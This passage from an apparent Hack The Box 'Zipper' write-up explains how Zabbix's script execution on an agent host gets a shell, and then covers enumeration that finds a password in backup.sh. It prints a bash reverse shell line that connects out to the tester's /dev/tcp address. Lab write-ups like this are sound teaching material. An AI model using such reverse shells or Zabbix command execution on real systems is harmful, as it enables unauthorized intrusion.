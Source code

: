 Since the Zipper host should be our target (which is an agent), changing the "Execute on" field to "Zabbix agent" should allow us to execute code from there. Note that the hostid should be changed to 10106.

When executing the original shell.sh, the shell died as soon as the connection was established. From the API response, it seems that the command simply returned successful thus killing the reverse shell process.

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_16.png)
Therefore, the shell.sh is modified as below.

```bash
bash -i >& /dev/tcp/10.10.14.35/443 0>&1
```

Now we have shell access to the Zipper host.

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_17.png)

After some enumeration on the host, some interesting files were found in the /home/zapper/utils/ directory. 

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_18.png)

First looking at the backup.sh file, it contained a password used to encrypt the 7zip archive we observed earlier.

![Screenshot](/assets/img/htb-zipper-writeup-screenshot/image_19.png)

